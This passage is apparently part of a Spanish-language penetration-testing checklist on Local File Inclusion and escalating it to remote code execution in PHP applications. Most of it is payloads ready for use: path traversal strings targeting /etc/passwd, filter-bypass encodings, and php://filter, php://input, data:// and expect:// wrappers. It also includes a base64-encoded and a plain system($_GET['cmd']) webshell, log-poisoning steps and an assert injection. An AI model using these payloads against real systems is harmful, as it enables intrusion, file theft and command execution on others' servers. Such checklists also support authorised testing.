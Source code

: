 - [ ] **Automatizar RCE (si se obtiene un webshell):** Usar scripts para interactuar con el shell.

### LFI/RFI

#### Local File Inclusion (LFI)

- [ ] **Identificar Parámetros Vulnerables:** Buscar parámetros como `?page=`, `?file=`, `?include=`, `?path=`, `?document=`.
- [ ] **Path Traversal:**
    - [ ] Intentar acceder a archivos fuera del directorio web raíz:
        - [ ] `../../../../../../../../etc/passwd`
        - [ ] `../../../../../../../../windows/win.ini`
    - [ ] **Bypass de Filtros:**
        - [ ] **Encodings:** `%2e%2e%2f`, `..%252f`, `.%2e/%2e%2e/`, `%c0%af` (overlong UTF-8), `..%c1%9c`.
        - [ ] **Filtros no recursivos:** `....//....//etc/passwd` (si `../` se reemplaza por nada).
        - [ ] **Paths aprobados/prefijos:** Si el path debe empezar con `/var/www/html/pages/`, intentar `?page=/var/www/html/pages/../../../../etc/passwd`.
        - [ ] **Extensiones añadidas automáticamente:**
            - [ ] **Null Byte:** `?page=../../etc/passwd%00` (si PHP < 5.3.4).
            - [ ] **Path Truncation:** Usar paths largos para que la extensión añadida se corte (ej. `?page=../../etc/passwd/././.[...]././.`).
- [ ] **Fuzzing de Parámetros y Archivos del Servidor:**
    - [ ] Usar wordlists para encontrar parámetros LFI comunes (GET y POST).
    - [ ] Usar wordlists de archivos comunes del servidor (logs, configuraciones, webroot).
- [ ] **PHP Filters & Wrappers:**
    - [ ] **`php://filter` para leer código fuente:**
        - [ ] `php://filter/read=convert.base64-encode/resource=index.php`
        - [ ] `php://filter/resource=index.php` (si se muestra directamente).
    - [ ] **`php://input` para RCE (POST request, `allow_url_include=on`):**
        - [ ] Enviar código PHP en el cuerpo del POST: `<?php system($_GET['cmd']); ?>`
    - [ ] **`expect://` para RCE (`expect` extensión habilitada):**
        - [ ] `expect://ls`
    - [ ] **`data://` para RCE (`allow_url_include=on`):**
        - [ ] `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+` (con `&cmd=ls`).
    - [ ] **Otros wrappers:** `zip://`, `phar://` (requiere un archivo subido).
    - [ ] **Fuzzing para archivos PHP** si se conoce la estructura.
    - [ ] **RCE directo con filtros (tu payload largo de `convert.iconv`):**
        - [ ] `php://filter/convert.iconv.../resource=php://temp&cmd=id` (probar si hay filtros muy específicos).
    - [ ] **`assert` (si se encuentra en el código y es inyectable):** `' and die(show_source('/etc/passwd')) or '`.
- [ ] **Técnicas LFI a RCE:**
    - [ ] **Log Poisoning:**
        - [ ] Inyectar código PHP en logs (ej. Apache `access.log` o `error.log` a través de peticiones con User-Agent malicioso o URLs malformadas).
        - [ ] `<?php system($_GET['cmd']); ?>`
        - [ ] Incluir el log: `?page=../../var/log/apache2/access.log&cmd=id`.
    - [ ] **`/proc/self/environ` (Linux):** Si se puede controlar una variable de entorno (ej. User-Agent) y se refleja en `/proc/self/environ`.
    - [ ] **Inclusión de Archivos de Sesión PHP:** Si se puede controlar parte del contenido de la sesión.
    - [ ] **Inclusión de Archivos Temporales de Upload:** Si se conoce la ruta y el nombre del archivo temporal.
- [ ] **Herramientas LFI:** LFISuite, LFiFreak, liffy, dotdotpwn.
